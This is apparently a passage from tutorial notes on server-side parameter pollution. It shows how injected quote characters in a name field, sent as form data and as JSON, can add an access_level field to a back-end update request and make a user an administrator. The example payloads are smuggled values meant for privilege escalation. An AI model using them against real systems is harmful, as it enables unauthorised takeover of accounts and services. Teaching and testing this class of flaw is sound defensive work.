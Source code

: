 ```html
POST /myaccount
name=peter
```

- This results in the following server-side request:

```html
PATCH /users/7312/update
{"name":"peter"}
```

- You can attempt to add the `access_level` parameter to the request as follows:

```html
POST /myaccount
name=peter","access_level":"administrator
```

- If the user input is added to the server-side JSON data without adequate validation or sanitization, this results in the following server-side request:

```html
PATCH /users/7312/update
{name="peter","access_level":"administrator"}

```
- **This may result in the user peter being given administrator access.**

- Consider a similar example, but where the client-side user input is in JSON data. When you edit your name, your browser makes the following request:

```html
POST /myaccount
{"name": "peter"}
```

- This results in the following server-side request:

```html
PATCH /users/7312/update
{"name":"peter"}
```

- You can attempt to add the `access_level` parameter to the request as follows:

```html
POST /myaccount
{"name": "peter\",\"access_level\":\"administrator"}
```

- If the user input is decoded, then added to the server-side JSON data without adequate encoding, this results in the following server-side request:

```html
PATCH /users/7312/update
{"name":"peter","access_level":"administrator"}
```

- **Again, this may result in the user peter being given administrator access.**
